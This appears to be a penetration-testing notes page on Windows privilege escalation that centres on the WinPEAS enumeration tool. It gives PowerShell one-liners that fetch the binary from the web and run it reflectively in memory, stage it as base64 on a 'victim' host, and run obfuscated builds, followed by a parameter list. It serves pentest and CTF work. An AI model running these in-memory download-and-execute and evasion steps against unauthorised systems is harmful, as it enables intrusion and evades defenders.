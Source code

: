 ```yaml
---
description: >-
  Privilege Escalation consists of techniques that adversaries use to gain
  higher-level permissions on a system or network.
---
```


# Privilege Escalation

ID: TA0004

{% embed url="https://attack.mitre.org/tactics/TA0004/" %}

## WinPEAS

{% hint style="info" %}
Official Link: [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

Color Legend:

* Red = special privilege is misconfigured
* Green = some protection is enabled or something is well configured
* Cyan = active user
* Blue = disabled users
* Light Yellow = indicates links
{% endhint %}

Download the [**latest obfuscated and not obfuscated versions from here**](https://github.com/peass-ng/PEASS-ng/releases/latest) or **compile it yourself** (read instructions for compilation).

```powershell
# Get latest release
$url = "https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# Before cmd in 3 lines
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

#### Parameter Examples

```powershell
winpeas.exe -h # Get Help
winpeas.exe # run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo # Only systeminfo and userinfo checks executed
winpeas.exe notcolor # Do not color the output
winpeas.exe domain # enumerate also domain information
winpeas.exe wait # wait for user input between tests
winpeas.exe debug # display additional debug information
winpeas.exe log # log output to out.txt instead of standard output
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh # Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas  # Execute also additional LOLBAS search check
```

### Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):

```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

\
